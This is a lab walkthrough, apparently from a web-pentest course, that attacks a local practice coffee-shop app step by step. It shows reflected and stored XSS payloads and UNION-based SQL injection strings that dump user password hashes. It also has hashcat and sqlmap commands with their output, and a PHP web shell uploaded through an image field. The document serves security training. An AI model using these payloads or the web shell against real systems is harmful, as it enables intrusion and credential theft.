

# Web App - Capstone Practical Lab

Analyze and pentest the web application by finding all the impactful issues.

- Run BurpSuite to capture all the traffic and browse to `http://localhost/capstone/`

```bash
ffuf -u http://localhost/capstone/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php -recursion

ffuf -u http://localhost/capstone/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php -recursion -fs 274
```

```bash
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost/capstone/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 274
________________________________________________

admin                   [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 1ms]
[INFO] Adding a new job to the queue: http://localhost/capstone/admin/FUZZ

assets                  [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 2ms]
[INFO] Adding a new job to the queue: http://localhost/capstone/assets/FUZZ

auth.php                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 7ms]
                        [Status: 200, Size: 14261, Words: 2458, Lines: 109, Duration: 116ms]
coffee.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 18ms]
db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 21ms]
index.php               [Status: 200, Size: 14261, Words: 2458, Lines: 109, Duration: 69ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 12ms]
index.php               [Status: 200, Size: 14261, Words: 2458, Lines: 109, Duration: 75ms]
init.php                [Status: 200, Size: 238, Words: 22, Lines: 8, Duration: 155ms]
[INFO] Starting queued job on target: http://localhost/capstone/admin/FUZZ

admin.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 28ms]
admin.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 32ms]
[INFO] Starting queued job on target: http://localhost/capstone/assets/FUZZ

:: Progress: [9228/9228] :: Job [3/3] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

- Sign up with a weak password and login
- The message is reflected on the URL

```bash
http://localhost/capstone/index.php?message=You%20successfully%20logged%20in!
```

Try some HTML injection and XSS

- 📌 **Reflected XSS** is present

```bash
http://localhost/capstone/index.php?message=<script>prompt(1)</script>
```

Go to `http://localhost/capstone/coffee.php?coffee=1`

- Try XSS it in the **Add rating** comment - `<script>prompt(1)</script>`
- Refresh the page to test the stored XSS
- 📌 **Stored XSS** is present

Try SQL injection in the `http://localhost/capstone/coffee.php?coffee=1` URL

```bash
http://localhost/capstone/coffee.php?coffee=1%27%20or%201=1# 
# informational issue

http://localhost/capstone/coffee.php?coffee=1%27%20or%201=1--%20-
# Success - Returns all coffees

http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,null,null,null,null,null,null--%20-
# Success - UNION select

http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,TABLE_NAME,%27string%27,null,null,null,null%20FROM%20INFORMATION_SCHEMA.TABLES--%20-
# Success - tables

http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,COLUMN_NAME,%27string%27,null,null,null,null%20FROM%20INFORMATION_SCHEMA.COLUMNS--%20-
# Success - columns: user_id, username, password, etc

http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,username,password,null,null,null,null%20FROM%20users--%20-
# Success - got users with passwords hash
```

- 📌 SQLi
  - `=1' or 1=1-- -`
  - `=1' union select null,null,null,null,null,null,null-- -`
  - `=1' union select null,TABLE_NAME,'string',null,null,null,null FROM INFORMATION_SCHEMA.TABLES-- -`
  - `=1' union select null,COLUMN_NAME,'string',null,null,null,null FROM INFORMATION_SCHEMA.COLUMNS-- -`
  - `=1' union select null,username,password,null,null,null,null FROM users-- -`

```bash
# Users hashes
jeremy:
$2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy
jessamy:
$2y$10$meh2WXtPZgzZPZrjAmHi2ObKk6uXd2yZio7EB8t.MVuV1KwhWv6yS
ray:
$2y$10$cCXaMFLC.ymTSqu1whYWbuU38RBN900NutjYBvCClqh.UHHg/XfFy
bob:
$2y$10$ojC8YCMKX2r/Suqco/h.TOFTIaw5k3Io5FVSCeWjCCqL8GWwmAczC
maria:
$2y$10$EPM4Unjn4wnn4SjoEPJu7em6OLISImA50QS3T1jCLyh48d7Pv6KBi
amir:
$2y$10$qAXjb233b7CMHc69CU.8ueluFWZDt9f08.XYJjsJ.EfC/O5JGSOqW
xinyi:
$2y$10$37gojoTFmj86E6NbENGg9e2Xu2z6OKKSgnjYxDkXJn/8dvSk2tKfG
kofi:
$2y$10$5sVvPfZOjzRTSeXJtQBGc.CfsDEwvITNkIg2IF9jSBhZZ1Rq.IK3.
```

- Try to crack some of the hashes with mode `bcrypt $2*$, Blowfish (Unix)`

```bash
nano hash.txt

$2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy
$2y$10$meh2WXtPZgzZPZrjAmHi2ObKk6uXd2yZio7EB8t.MVuV1KwhWv6yS
```

```bash
hashcat -m 3200 hash.txt /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt

hashcat -m 3200 hash.txt /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt --show

	$2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy:captain1
```

- Run `sqlmap` on the `http://localhost/capstone/coffee.php?coffee=1` request
  - Get it from BurpSuite

```bash
nano coffee.txt

GET /capstone/coffee.php?coffee=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=6f9efce7c39046143f27daa3f9d80638
Connection: keep-alive
```

```bash
sqlmap -r coffee.txt -T users --dump
```

```bash
# sqlmap result
Database: peh-capstone-labs
Table: users
[9 entries]
+---------+--------+--------------------------------------------------------------+----------+
| user_id | type   | password                                                     | username |
+---------+--------+--------------------------------------------------------------+----------+
| 1       | admin  | $2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy | jeremy   |
| 2       | admin  | $2y$10$meh2WXtPZgzZPZrjAmHi2ObKk6uXd2yZio7EB8t.MVuV1KwhWv6yS | jessamy  |
| 3       | admin  | $2y$10$cCXaMFLC.ymTSqu1whYWbuU38RBN900NutjYBvCClqh.UHHg/XfFy | raj      |
| 4       | user   | $2y$10$ojC8YCMKX2r/Suqco/h.TOFTIaw5k3Io5FVSCeWjCCqL8GWwmAczC | bob      |
| 5       | user   | $2y$10$EPM4Unjn4wnn4SjoEPJu7em6OLISImA50QS3T1jCLyh48d7Pv6KBi | maria    |
| 6       | user   | $2y$10$qAXjb233b7CMHc69CU.8ueluFWZDt9f08.XYJjsJ.EfC/O5JGSOqW | amir     |
| 7       | user   | $2y$10$37gojoTFmj86E6NbENGg9e2Xu2z6OKKSgnjYxDkXJn/8dvSk2tKfG | xinyi    |
| 8       | user   | $2y$10$5sVvPfZOjzRTSeXJtQBGc.CfsDEwvITNkIg2IF9jSBhZZ1Rq.IK3. | kofi     |
| 9       | user   | $2y$10$C2L29W3hbwvK..KvPltBmO5aL8CD74yByBzat6GEMmJA2ah15JvtS | sys      |
+---------+--------+--------------------------------------------------------------+----------+
```

📌 Creds - `jeremy`:`captain1`

- Login as `jeremy`
- Browse to `http://localhost/capstone/admin/admin.php`

Try to add a new coffee and upload a file.

- Find the `POST` request, send to Repeater and try to upload a shell

```bash
Content-Disposition: form-data; name="image"; filename="logo.php"
Content-Type: image/png

PNG
... <?php system($_GET['cmd']); ?>
```

- The file has been uploaded successfully
- Open `http://localhost/capstone/assets/12.php`
  - `http://localhost/capstone/assets/12.php?cmd=whoami`
  - 📌 Insecure file upload successful



---

